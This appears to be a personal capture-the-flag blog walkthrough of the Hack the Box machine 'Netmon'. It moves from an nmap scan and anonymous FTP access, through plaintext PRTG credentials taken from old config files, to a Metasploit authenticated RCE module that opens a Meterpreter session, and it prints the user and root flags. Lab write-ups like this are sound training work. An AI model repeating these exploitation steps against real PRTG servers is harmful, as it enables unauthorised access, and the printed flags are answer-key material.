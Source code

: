 ```yaml
---
title: Netmon - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Netmon.png
---
```

---
title: 2024-10-12-Netmon - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Netmon.png
---
![Image](/assets/Netmon.png)

Netmon serves as a brilliant example of being very intentional and simple when looking for vectors to enumerate and services to exploit. I spent time going down a rabbit hole, albeit a shallow one, but the lesson was learned. It's also important to take very copious notes in these reports here, so from now on these will be very fleshed out.

### Reconnaissance
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-04 15:39 EDT
Nmap scan report for 10.10.10.152
Host is up (0.12s latency).
Not shown: 52259 closed tcp ports (reset), 13263 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-04T19:41:21
|_  start_date: 2024-09-04T19:38:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 120.10 seconds

```

The scan gives us quite a bit. We've got access to FTP shares, a PRTG Monitor version 18.1.37.13946, and SMB. In hindsight, it's very simple and quite concise, so the trained eye merely comes from practice.

### Service Enumeration

Take the path of least resistance. Be water. Let's fucking go, yeah? Starting with FTP is the sensical choice, with anonymous login allowed, we're privy to quite a bit.

Initially, I'd completely skipped this vector... Dunno why.  `ftp anonymous@10.10.10.152` will yield access. Now, from now on, where applicable, `ls -la` takes precedence. This shows hidden directories, if any. 

```
┌──(root㉿kali)-[/home/li0t]
└─# ftp anonymous@10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
229 Entering Extended Passive Mode (|||49858|)
150 Opening ASCII mode data connection.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
09-06-24  05:49AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.

```

We get a lot here, but we don't know what it all means yet. Easiest path leads us down through public users to get our user flag.

```
ftp> more user.txt
0526c34b6f2df988e87b2d8d1abc7b4b
```

Theres nothing much else here in the `/Users` directory, and we cannot access administrator level ones without higher privileges. We'll come back here soon. Let's see what the web server has to offer.

![Image](/assets/Screenshot 2024-09-04 at 3.45.47 PM.png)

Navigating to the website, we're met with a portal for this PRTG Network Monitor, and upon some research looking for version information and credentials, we find this interesting tidbits.

![Image](/assets/Screenshot 2024-09-06 at 6.35.25 AM.png)
![Image](/assets/Screenshot 2024-09-06 at 6.29.25 AM.png)
![Image](/assets/Screenshot 2024-09-06 at 6.14.17 AM.png)

So, it looks like this version of the software keeps plaintext credentials in an old configuration file, and given the path in the photo, it looks like we can access through FTP. Navigating to `/ProgramData/Paessler/PRTG\ Network\ Monitor/` gives us access to the old configuration files, where we can find the credentials needed.

![Image](/assets/Screenshot 2024-09-06 at 6.28.55 AM.png)

### Initial Access

Now, once found, we can use searchsploit to check if there's a MSF module for the RCE referenced above. 

```
┌──(root㉿kali)-[/home/li0t]
└─# searchsploit PRTG
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authentica | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stac | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-S | java/webapps/34108.txt
------------------------------------------- --------------------------------
```

Looks like we're in business. I'm going to use Metasploit for now because I'm pressed on time, but I'll come back through (for all MSF ones) and do it manually as well.

```
msf6 > search PRTG

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce_cve_2023_32781  2023-08-09       excellent  Yes    PRTG CVE-2023-32781 Authenticated RCE
   1    \_ target: Windows_Fetch                                  .                .          .      .
   2    \_ target: Windows_CMDStager                              .                .          .      .
   3  exploit/windows/http/prtg_authenticated_rce                 2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE

```

Looks like 3 is what we want. I'll also set to a `bind_tcp` payload, as reverse has been throwing errors for me. Also, the box was published in 2019, and seeing as the password houses 2018, we can give both a shot for variance.

![Image](/assets/Screenshot 2024-09-06 at 6.40.30 AM.png)

Let it rip, bear.

```
msf6 exploit(windows/http/prtg_authenticated_rce) > run

[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Started bind TCP handler against 10.10.10.152:4444
[*] Sending stage (176198 bytes) to 10.10.10.152
[*] Meterpreter session 1 opened (10.10.14.3:37941 -> 10.10.10.152:4444) at 2024-09-06 06:40:53 -0400

meterpreter > 
```

### Post-Exploitation

Navigate to the administrator file that we didn't have access to before, and you'll get your flag.

```
meterpreter > cat root.txt 
45d31e16cd35bfb0311d0b7f3207e644
```
#easy #windows #msfconsole 
